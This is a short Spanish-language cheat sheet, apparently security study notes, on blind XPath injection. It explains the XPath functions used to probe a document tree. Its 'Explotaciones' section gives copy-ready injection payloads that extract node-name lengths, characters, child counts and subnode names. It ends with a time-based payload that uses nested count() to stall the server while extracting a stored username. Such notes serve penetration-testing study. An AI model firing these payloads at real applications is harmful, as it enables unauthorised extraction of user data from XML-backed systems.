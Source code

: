 ### INTRO

Funciona con el mismo criterio de las BLIND SQLI.

### Funciones

| función | uso |
|---|---|
|Name() | Puede ser llamada en cualquier nodo y nos da el nombre del nodo    |
|Substring () | nos permite exfiltrar el nombre de un nodo un caracter a la vez  |
|string-length() | nos permite determinar el largo del nombre de un nodo |
|count() | Devuelve el número de hijos que tiene un nodo |

### Explotaciones

#### Extraer el length de un nodo

  invalid'+or+string-length(name(/*[1]))=1+and+'1'='1
  
#### Extraer caracteres de un nodo

  invalid'+or+substring(name(/*[1]),<index_del_nombre>,1)='a'+and+'1'='1

#### Extraer cantidad de subnodos 

Una vez que tenemos el nombre de un nodo tenemos podemos extraer la cantidad de subnodos:

  invalid'+or+count(/<nodo>/*)=2+and+'1'='1


#### Extrayendo el nombre de un subnodo:

Una vez que sabemos la cantidad de subnodos y tenemos el nodo principal podemos empezar a realizar los pasos anteriormente agregando el index del subnodo: [1]

  invalid+or+substring(name(/<nodo>/*[1]),1,1)='a'+and+'1'='1
  
---

### Time Based blind xpath

En los casos donde la respuesta no pueda darnos un indicio de funcionamiento, aunque no hay una funcion SLEEP, tenemos formas de sobrecargar el procesamiento haciendo que la respuesta se vuelva más lenta y de esta manera saber si se están procesando los datos. 

Para esto usaremos de manera recursiva la función COUNT haciendo que se itere el documento reiteradas veces.

  invalid'+or+substring(/users/user[1]/username,1,1)='a'+and+count((//.)[count((//.))])+and+'1'='1

